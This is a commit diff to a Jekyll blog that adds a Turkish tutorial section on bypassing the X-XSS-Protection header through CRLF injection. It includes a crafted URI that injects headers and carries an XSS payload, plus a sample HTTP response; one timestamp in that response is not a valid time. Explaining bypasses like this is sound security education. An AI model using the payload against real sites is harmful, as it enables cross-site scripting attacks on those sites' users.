

Before and after one commit to mhmtayberk/ayberkninja.github.io, a Jekyll site: the page built from all_collections/_posts/2022-12-21-http-security-headers-bypasses.md, in a window 1280 px wide and 1400 px high, scrolled down 11949 px. Shown: the whole window, without its empty margins (229-1050 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 12579 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-12-21-http-security-headers-bypasses.md

````diff
--- a/all_collections/_posts/2022-12-21-http-security-headers-bypasses.md
+++ b/all_collections/_posts/2022-12-21-http-security-headers-bypasses.md
@@ -203,6 +203,40 @@ server {
         }
 }
 ```
+## X-XSS-Protection Header Bypass
+Söz konusu zafiyet eğer XSS ise gün geçmiyor ki yeni bir payload, yeni bir güvenlik çözümleri için bypass yöntemi ortaya çıkmasın. Ben bu noktada hepimizin yakından bildiği X-XSS-Protection HTTP başlığının CRLF Injection ile nasıl atlatılabileceğinden bahsetmek istiyorum.
+
+### X-XSS-Protection Bypass via CRLF Injection
+CRLF Injection zafiyetinde HTTP yanıtını bölerek Body ve/veya Header ekleyebildiğimiz biliyoruz. Buradaki zafiyette de tam olarak bu durum söz konusu. Güvenli sayılan bir X-XSS-Protection yapısı normalde şu şekildedir:
+```http
+X-XSS-Protection: 1; mode=block
+```
+
+Eğer CRLF Injection zafiyeti yardımıyla **X-XSS-Protection: 0;** tanımını yapabilirsek ve Body'de XSS Payload'umuzu gönderirsek ne olur? Şanslıysak X-XSS-Protection başlığını bypasslayabiliriz. Aşağıdaki URI'ı inceleyelim.
+```http
+http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
+```
+
+Burada olanlara biraz daha yakından bakacak olursak CR(%0d) ve LF(%0a) karakterleri ile **Content-Length:35** ve **X-XSS-Protection:0** HTTP başlıkları eklenmekt. Ardından XSS payload'umuz yani **<svg onload=alert(document.domain)>** 'i ekliyoruz. Burada dikkat etmemiz gereken nokta ise Content-Length değerinin Payload'umuzun karakter sayısına eşit olarak set edilmesidir. Son durumunda HTTP isteği şu şekilde olacaktır:
+```ruby
+HTTP/1.1 200 OK
+Date: Tue, 20 Dec 2022 01:33:70 GMT
+Content-Type: text/html; charset=utf-8
+Content-Length: 22907
+Connection: close
+X-Frame-Options: SAMEORIGIN
+Last-Modified: Tue, 20 Dec 2022 13:37:00 GMT
+ETag: "842fe-597b-54415a5c97a80"
+Vary: Accept-Encoding
+Content-Length:35
+X-XSS-Protection:0
+
+23
+<svg onload=alert(document.domain)>
+0
+```
+
+Bu noktada X-XSS-Protection HTTP başlığını atlatmış ve Reflected XSS zafiyetini tetiklemiş olacağız. Unutmamalıyız ki aynı yöntem ile CSP gibi farklı güvenlik başlıkları da atlatılabilmekte.
 
 ## Geri Bildirim
 HTTP güvenlik başlıklarının nasıl atlatılabileceğini anlattığım blog yazısı bu kadardı. Herhangi bir geri bildiriminiz olması durumunda benimle herhangi bir iletişim kanalı (Twitter, Threema vb.) üzerinden iletişime geçebilirsiniz. Geri bildirimleriniz üzerine blog yazılarını ivedi olarak güncellemekteyim. Son olarak güncelliğini yitirmiş atlatma yöntemlerini de ele almamın sebebi işin çıkış noktalarını daha iyi kavramanız ve tarihçesini de bilmenizi istemem idi.
````
